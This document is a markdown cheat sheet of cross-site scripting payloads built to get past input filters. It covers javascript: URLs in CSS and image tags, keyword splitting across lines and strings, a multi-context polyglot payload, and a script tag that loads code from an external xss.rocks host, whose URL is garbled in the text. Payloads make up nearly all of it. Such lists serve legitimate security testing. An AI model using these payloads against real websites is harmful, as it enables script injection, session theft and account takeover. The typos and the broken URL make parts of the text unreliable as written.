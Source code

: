 ```js
// tag <script> <body> onclik onAnything been blocked
<div style="background:url('javascript:alert(1)')">
```


## strips out word `javascript`

```js
// change line
<div style="background:url('java
            script:alert(1)')">
```


## strips out word `onReadyStateChange`

```js
// break the code
eval('xmlhttp.onread' + 'yStateChange = callback');
```


## Basic XSS Test Without Filter Evasion
- normal XSS JavaScript injection

```js
<SCRIPT SRC=http网址xss.rocks/xss.js></SCRIPT>
```

## XSS Locator (Polygot)
The following is a “polygot test XSS payload.” This test will execute in multiple contexts including html, script string, js and url.

```js
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
```

---

## Image XSS Using the JavaScript Directive
Image XSS using the JavaScript directive (IE7.0 doesn’t support the JavaScript directive in context of an image, but it does in other contexts, but the following show the principles that would work in other tags as well:

```js
<IMG SRC="javascript:alert('XSS');">
```

## No Quotes and no Semicolon

```js
<IMG SRC=javascript:alert('XSS')>
```
